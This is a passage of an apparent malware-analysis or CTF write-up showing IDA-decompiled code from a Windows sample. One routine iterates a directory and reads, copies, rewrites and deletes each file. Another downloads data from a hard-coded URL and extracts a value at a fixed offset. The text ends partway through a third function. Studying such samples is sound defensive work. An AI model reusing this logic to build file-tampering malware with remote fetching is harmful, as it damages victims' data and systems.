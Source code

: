 ```cpp=
    {
      do
      {
        space = 0i64;
        if ( (lpFindFileData.dwFileAttributes & FILE_ATTRIBUTE_DIRECTORY) == 0
          && !(unsigned int)Create_Read_File(lpFindFileData.cFileName, (LPVOID *)&space, &fileSize) )
        {
          if ( (unsigned int)sprintf_copyFile(lpFindFileData.cFileName, folderName) )
            Create_Write_Delete_File(lpFindFileData.cFileName, space, fileSize);
        }
      }
      while ( FindNextFileA(FirstFileA, &lpFindFileData) );
      FindClose(FirstFileA);
    }
  }
}
```
:::
:::spoiler IDA InternetConnect
```cpp=
__int64 InternetConnect()
{
  unsigned int v1; // [rsp+30h] [rbp-38h]
  BOOL i; // [rsp+34h] [rbp-34h]
  _BYTE *lpBuffer; // [rsp+38h] [rbp-30h]
  HINTERNET hFile; // [rsp+40h] [rbp-28h]
  HINTERNET hInternet; // [rsp+48h] [rbp-20h]
  LPDWORD *lpdwNumberOfBytesRead; // [rsp+50h] [rbp-18h] BYREF

  lpBuffer = malloc(0x1000ui64);
  hInternet = InternetOpenA(szAgent, 1u, 0i64, 0i64, 0);
  if ( !hInternet )
    return 1i64;
  hFile = InternetOpenUrlA(hInternet, szUrl, 0i64, 0, INTERNET_FLAG_RELOAD, 0i64);
  if ( hFile )
  {
    v1 = 0;
    for ( i = InternetReadFile(hFile, lpBuffer, 0x1000u, &lpdwNumberOfBytesRead);
          i && lpdwNumberOfBytesRead && v1 < 0x1000;
          i = InternetReadFile(hFile, &lpBuffer[v1], 4096 - v1, &lpdwNumberOfBytesRead) )
    {
      v1 += lpdwNumberOfBytesRead;
    }
    qword_140007460 = (lpBuffer + 2687);
    lpBuffer[2706] = 0;
    InternetCloseHandle(hFile);
    InternetCloseHandle(hInternet);
    return 0i64;
  }
  else
  {
    InternetCloseHandle(hInternet);
    return 2i64;
  }
}
```
:::
:::spoiler IDA Create_Read_File
```cpp=
__int64 __fastcall Create_Read_File(LPCSTR lpFileName, LPVOID *space, DWORD *fileSize)
{
  HANDLE hFile; // [rsp+40h] [rbp-128h]
  LPDWORD NumberOfBytesRead; // [rsp+48h] [rbp-120h] BYREF
```